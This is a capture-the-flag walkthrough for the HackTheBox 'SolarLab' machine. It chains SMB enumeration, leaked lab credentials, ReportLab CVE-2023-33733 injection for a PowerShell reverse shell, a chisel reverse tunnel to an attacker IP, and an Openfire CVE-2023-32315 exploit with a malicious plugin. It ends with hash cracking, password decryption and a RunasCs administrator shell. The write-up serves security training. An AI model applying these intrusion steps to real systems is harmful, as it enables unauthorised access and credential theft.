

---
---

# HTB - SolarLab

NMAP


Add solarlab.htb and report.solarlab.htb to /etc/hosts

- **<u>Enumerate port 445:</u>**
```bash
enum4linux -u Guest -p "" -a solarlab.htb

```


- Enum share:


- Download the content and look for metadata:
```bash
exiftool concepts/* old_leave_request_form.docx details-file.xlsx  | grep "Modified" & exiftool concepts/* old_leave_request_form.docx details-file.xlsx | grep "Creator"

```


- Opening the .docx file:


| Alexander.knight@gmail.com | al;ksdhfewoiuh         |
|------------------------------------|------------------------|
| Kalexander                 | dkjafblkjadsfgl        |
| Alexander.knight@gmail.com | d398sadsknr390         |
| blake.byte                 | ThisCanB3typedeasily1@ |
| AlexanderK                 | danenacia9234n         |
| ClaudiaS                   | dadsfawe9dafkn         |

**<u>Enumerate port 6791:</u>**

- We get a login page:


- If we use **BlakeB** with the password **ThisCanB3typedeasily1@** , we can log in to report.solarlab.htb:6791


- All of these options are the same as below:


- Generate a pdf
- Use exiftool to view the pdf:


- We can see that **ReportLab** is being used as the PDF Generator

- There is an exploit for ReportLab - **CVE-2023-33733**
<https://github.com/c53elyas/CVE-2023-33733>

**<u>Exploit steps:</u>**

- Open Burp
- Click on Leave Request
- Capture the request with Burp:


- What we need to **change** is the parameter **"leave_request"**

- On github there's a POC:
<https://github.com/c53elyas/CVE-2023-33733>

No need to git clone the repo

- If we scroll down to the bottom of the page:


We can see the html code that needs to be injected in order to utilise the **os.system** command

- Now if we go over to revshells and get the powershell \#3 base64 code:


- We can input that in the system() function instead


- Set up a listener
- Send the request

- And we get a shell as Blake:


```bash
cat user.txt

```
- In the current app directory - we get the instance dir, which contains a db file:


alexanderk - HotP!fireguard'

claudias - 007poiuytrewq

blakeb - ThisCanB3typedeasily1@

- We can see a lot of ports running locally:


<u>Upload chisel</u>

- On Kali:
```bash
./chisel server -p 8888 --reverse
```

- On target:
```bash
.\chisel.exe client 10.10.14.69:8888 R:socks &

proxychains nmap 127.0.0.1 -sT

```


- OpenFire is running locally and Openfire admin console runs on port 9090:


- We get the Openfire version - **4.7.4** -- Which leads us to **CVE-2023-32315**

**<u>CVE-2023-32315</u>**

This exploit can be done manually:

<https://www.vicarius.io/vsociety/posts/cve-2023-32315-path-traversal-in-openfire-leads-to-rce>

**or**

Using a script:

```bash
git clone https://github.com/miko550/CVE-2023-32315.git

```
- **Since we don't have a valid user, do the following:**
```bash
cd CVE-2023-32315
pip3 install -r requirements.txt
proxychains python3 CVE-2023-32315.py -t http://127.0.0.1:9090

```


- It created a user for us - by retrieving the csrf and jsessionid tokens and crafting a new user:
**username: lyy10y**

**password: llq47k**

- Login to the admin console with the new credentials

- Go to the Plugins page
- Upload the plugin (openfire-management-tool-plugin.jar ) found in the git repo


- Successfully uploaded and the password is **123**


- Go to Server -\> Server Settings -\> Management Tool
(If you take too long, you need to reupload the plugin)


- And we're user Openfire:


- Using Powershell#3 from revshells and setting up a listener - we get a shell:


- Upgrade to meterpreter:


```bash
hashcat -a 0 -m 5600 hash.txt /usr/share/wordlists/rockyou.txt

```


- In C:\Program Files\Openfire - we get an embedded-db folder and this contains some interesting files

- The **openfire.script** file is the "database" or more specifically it's a file with all the sql commands


- In here we can see an encrypted password for Administrator and a passwordKey:


- Luckily there is a repo for this:
<https://github.com/c0rdis/openfire_decrypt>

- Clone the repo

- Build the file:
```bash
javac OpenFireDecryptPass.java

```
- Enter the password and key:


```bash
java OpenFireDecryptPass 'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442' 'hGXiFzsKaAeYLjn'

```


We get: **ThisPasswordShouldDo!@**

- Use RunasCs to run a msf payload:
```bash
.\runascs.exe administrator ThisPasswordShouldDo!@ ".\rev.exe"

```


